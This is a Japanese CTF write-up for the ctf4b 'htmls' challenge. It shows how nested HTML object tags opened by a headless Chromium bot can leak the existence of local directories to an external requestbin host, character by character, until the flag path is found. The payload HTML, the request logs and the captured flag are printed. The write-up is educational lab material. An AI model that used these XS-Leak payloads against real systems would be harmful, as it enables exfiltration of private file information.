



# htmls

## 問題文
<!-- TODO:問題文、配布ファイル追加 -->

## 難易度
**medium**  

## 作問にあたって
最近のCTFではよく出る、XS-Leaksテクニックを学んでもらうための問題です(今回はサイトではなくHTMLファイルですが)。  
ブラウザではローカルHTMLを開くだけで情報が流出することが知られています。  
当初は今回のobjectタグに加えて、font-srcだけが無いような不完全なCSPをかけてCSSのリクエストでリークする問題を考えていましたが、本質ではないのでやめました。  
総当たり対策のため、ちょっと面倒にしてごめんなさい。  

## 解法
URLとソースが与えられる。  
アクセスするとHTMLを送信できるサイトのようだ。  
  
試しに、`<html><body><script>alert(1)</script></body></html>`を投げるが、`HTMLファイルをBotが閲覧しました`と表示されるのみだ。  
配布されたソースのcapp.pyを見ると以下の通りであった。  
```python
import os
import uuid
import asyncio
from playwright.async_api import async_playwright
from flask import Flask, send_from_directory, render_template, request

app = Flask(__name__)


@app.route("/", methods=["GET"])
def index_get():
    return render_template("index.html")


async def crawl(filename):
    async with async_playwright() as p:
        browser = await p.chromium.launch()
        context = await browser.new_context(java_script_enabled=False)
        page = await context.new_page()
        await page.goto(f"file:///var/www/htmls/{filename}", timeout=5000)
        await browser.close()


@app.route("/", methods=["POST"])
def index_post():
    try:
        html = request.form.get("html")
        filename = f"{uuid.uuid4()}.html"
        with open(f"htmls/{filename}", "w+") as f:
            f.write(html)
        asyncio.run(crawl(f"{filename}"))
        os.remove(f"htmls/{filename}")
    except:
        pass
    return render_template("ok.html")


@app.route("/flag/<path:flag_path>")
def flag(flag_path):
    return send_from_directory("htmls/ctf/", os.path.join(flag_path, "flag.txt"))


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=31417)
```
どうやら送信したHTMLをローカルに保存し、Chromiumで開いているようだ。  
Cookieなどにフラグはなく、`java_script_enabled=False`なのでXSSでもない。  
[リクエストを受信できるサーバ](https://pipedream.com/requestbin)などを利用して、以下のようにimgタグでリクエストを発してみる。  
<!-- TODO:RequestbinURL -->
```html
<html>
    <body>
        
    </body>
</html>
```
するとリクエストが届くため、アウトバウンドは制限されていないようだ。  
Chromiumのバージョンが古ければ脆弱性が利用できるかもしれないが最新版であった。  
また、`/flag/<path:flag_path>`なるエンドポイントでは、指定したパス下にある`flag.txt`を返してくれるようだ。  
配布されたソースのmake_flag.sh見ると以下のようであった。  
```sh
#!/bin/bash

rm -rf /var/www/htmls/ctf/*

base_path="/var/www/htmls/ctf/"

depth=$((RANDOM % 10 + 15))

current_path="$base_path"

for i in $(seq 1 $depth); do
  char=$(printf "%d" $((RANDOM % 36)))
  if [[ $char -lt 26 ]]; then
    char=$(printf "\\$(printf "%03o" $((char + 97)) )")
  else
    char=$(printf "%d" $((char - 26)))
  fi
  current_path+="${char}/"
  mkdir -p "$current_path"
done

echo 'ctf4b{*****REDACTED*****}' > "${current_path}flag.txt"
```
`/var/www/htmls/ctf/`以下にランダムなa-z0-9の1文字のディレクトリを複数回作成して、その中にフラグが書かれた`flag.txt`を作成している。  
このディレクトリを特定すればよいとわかるが、最低でも深さが15あるので総当たりは難しい。  
ChromiumでHTMLファイルを開くことでディレクトリ名を特定する必要がありそうだ。  
ここで、以下のようなHTMLを考える。  
```html
<html>
    <body>
        <iframe src="file:///etc/"></iframe>
        <iframe src="file:///etc/passwd"></iframe>
        <br>
        <iframe src="file:///omg/"></iframe>
        <iframe src="file:///omg/nofile"></iframe>
    </body>
</html>
```
このHTMLをtest1.htmlとし、Chromiumで開くと以下の通りとなる。  
  
存在するディレクトリやファイルはその内容が表示され、それ以外はエラーページとなっている。  
どうにかしてこの差異を検出して、外部に送信できればディレクトリの存在の有無が特定できると気づく。  
JavaScriptは利用できないのですべてをタグで行う必要がある。  
ところで、このようにサイドチャネル様に別のサイト内のデータやローカルの情報などを明らかにすることを[Cross-Site Leaks (XS-Leaks)](https://xsleaks.dev/)と呼ぶ。  
また、その情報を得るためのヒントをCross-Site Oraclesまたは単にオラクルと言う。  
XS-Leaksの[テクニック](https://book.hacktricks.xyz/pentesting-web/xs-search)を探すと、[objectタグのみを使ったもの](https://book.hacktricks.xyz/pentesting-web/xs-search#onload-onerror)があるようだ。  
以下のHTMLを考える。  
```html
<html>
    <body>
        <object data="file:///etc/">
            <object data="http://example.com?etc"></object>
        </object>
        <br>
        <object data="file:///omg/">
            <object data="http://example.com?omg"></object>
        </object>
    </body>
</html>
```
これをtest2.htmlとして、Chromiumで開くと以下の通りとなる。  
  
存在するディレクトリ`file:///etc/`はIndex ofが表示されている。  
一方、存在しないディレクトリ`file:///omg/`は読み込みに失敗しており、その子要素である`http://example.com?omg`が表示されている。  
このリクエストを自身のサーバへ向けることで、オラクルとできないだろうか。  
クエリからどの子要素か判定できるようにしておけば、リクエストの有無を用いてディレクトリの存在をリークできると気づく。  
[リクエストを受信できるサーバ](https://pipedream.com/requestbin)などを利用して、以下のようなHTMLを送信する。  
<!-- TODO:RequestbinURL -->
```html
<html>
    <body>
        <object data="file:////var/www/htmls/ctf/a/">
            <object data="https://enxcl00pxd1sf.x.pipedream.net/?no=file:///var/www/htmls/ctf/a/"></object>
        </object>
        <object data="file:////var/www/htmls/ctf/b/">
            <object data="https://enxcl00pxd1sf.x.pipedream.net/?no=file:///var/www/htmls/ctf/b/"></object>
        </object>
~~~
        <object data="file:////var/www/htmls/ctf/9/">
            <object data="https://enxcl00pxd1sf.x.pipedream.net/?no=file:///var/www/htmls/ctf/9/"></object>
        </object>
    </body>
</html>
```
すると以下のような大量のリクエストが届く。  
<!-- TODO:実際のものへ、RequestbinURL -->
```
GET /?no=file:///var/www/htmls/ctf/4/
GET /?no=file:///var/www/htmls/ctf/6/
GET /?no=file:///var/www/htmls/ctf/z/
GET /?no=file:///var/www/htmls/ctf/o/
GET /?no=file:///var/www/htmls/ctf/k/
GET /?no=file:///var/www/htmls/ctf/2/
GET /?no=file:///var/www/htmls/ctf/1/
GET /?no=file:///var/www/htmls/ctf/s/
GET /?no=file:///var/www/htmls/ctf/x/
GET /?no=file:///var/www/htmls/ctf/5/
GET /?no=file:///var/www/htmls/ctf/m/
GET /?no=file:///var/www/htmls/ctf/3/
GET /?no=file:///var/www/htmls/ctf/e/
GET /?no=file:///var/www/htmls/ctf/0/
GET /?no=file:///var/www/htmls/ctf/w/
GET /?no=file:///var/www/htmls/ctf/a/
GET /?no=file:///var/www/htmls/ctf/u/
GET /?no=file:///var/www/htmls/ctf/c/
GET /?no=file:///var/www/htmls/ctf/y/
GET /?no=file:///var/www/htmls/ctf/l/
GET /?no=file:///var/www/htmls/ctf/d/
GET /?no=file:///var/www/htmls/ctf/g/
GET /?no=file:///var/www/htmls/ctf/p/
GET /?no=file:///var/www/htmls/ctf/t/
GET /?no=file:///var/www/htmls/ctf/r/
GET /?no=file:///var/www/htmls/ctf/8/
GET /?no=file:///var/www/htmls/ctf/7/
GET /?no=file:///var/www/htmls/ctf/n/
GET /?no=file:///var/www/htmls/ctf/9/
GET /?no=file:///var/www/htmls/ctf/q/
GET /?no=file:///var/www/htmls/ctf/v/
GET /?no=file:///var/www/htmls/ctf/h/
GET /?no=file:///var/www/htmls/ctf/f/
GET /?no=file:///var/www/htmls/ctf/b/
GET /?no=file:///var/www/htmls/ctf/i/
```
ただし、`GET /?no=file:///var/www/htmls/ctf/j/`<!-- TODO:実際のものへ -->のみ存在していない。  
これは`file:///var/www/htmls/ctf/j/`<!-- TODO:実際のものへ -->が存在していることを意味する。  
こうして一文字ずつ特定していけばよい。  
以下のleak.pyを用いてリクエストの送信を自動化する。  
<!-- TODO:実際のものへ -->
```python
```
最後にどのディレクトリも存在しないリクエストが届いた場合には、その下に`flag.txt`がある。  
以下のように読み取る。  
<!-- URL変更 -->
```bash
$ curl 'http://localhost:31417/flag/j/z/y/z/p/q/b/p/n/p/a/k/y/0/f/i/e/b/m/9/2/r/q/j/'
ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}
```
flagが得られた。  

## ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}